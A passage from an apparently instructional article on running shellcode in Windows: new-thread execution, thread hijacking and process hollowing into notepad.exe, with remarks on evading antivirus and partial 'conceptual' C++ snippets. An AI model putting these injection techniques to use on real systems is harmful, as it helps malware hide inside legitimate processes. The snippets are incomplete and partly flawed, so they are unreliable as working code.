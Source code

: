 Once the shellcode is in memory, it needs to be executed. There are several common methods to inject and execute shellcode:

#### Creating a New Thread (as shown above)
This is the simplest method. By creating a new thread with `CreateThread`, you can start execution of the shellcode. However, this can be easily detected by some AVs since creating new threads with executable permissions can be suspicious.

#### Hijacking an Existing Thread

A more stealthy approach is to hijack an existing thread. This can be achieved by using functions like `SuspendThread` and `SetThreadContext`. This method modifies the instruction pointer of an existing thread to point to the shellcode, thus disguising the shellcode’s execution as part of a legitimate process.

Example (conceptual):
```cpp
// Pseudocode to inject shellcode into an existing process
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);
HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, targetTID);

// Suspend the thread
SuspendThread(hThread);

// Modify thread context to point to shellcode
CONTEXT context;
context.ContextFlags = CONTEXT_FULL;
GetThreadContext(hThread, &context);
context.Rip = (DWORD64)shellcode; // Set RIP (instruction pointer) to shellcode
SetThreadContext(hThread, &context);

// Resume thread execution
ResumeThread(hThread);
```

In this method, the thread is paused (`SuspendThread`), its execution context is modified to point to the shellcode, and then it’s resumed (`ResumeThread`), causing the shellcode to execute as if it were part of the target thread.

#### Process Hollowing

Process Hollowing is a technique where a legitimate process is started in a suspended state, its memory is replaced with shellcode, and then it’s resumed. This is often used by malware to hide within a legitimate process.

Steps:
1. Use `CreateProcess` to start a legitimate process in a suspended state (`CREATE_SUSPENDED`).
2. Hollow out the process memory using `ZwUnmapViewOfSection`.
3. Allocate memory in the hollowed process using `VirtualAllocEx`.
4. Write the shellcode into the process’s memory using `WriteProcessMemory`.
5. Modify the entry point of the process to the address of the shellcode.
6. Resume the process, causing the shellcode to execute.

Example (conceptual):
```cpp
// Start notepad.exe in suspended state
STARTUPINFO si = { sizeof(si) };
PROCESS_INFORMATION pi;
CreateProcess(L"C:\\Windows\\System32\\notepad.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

// Hollow out the process and inject shellcode
ZwUnmapViewOfSection(pi.hProcess, baseAddress);
VirtualAllocEx(pi.hProcess, baseAddress, shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(pi.hProcess, baseAddress, shellcode, shellcodeSize, NULL);

```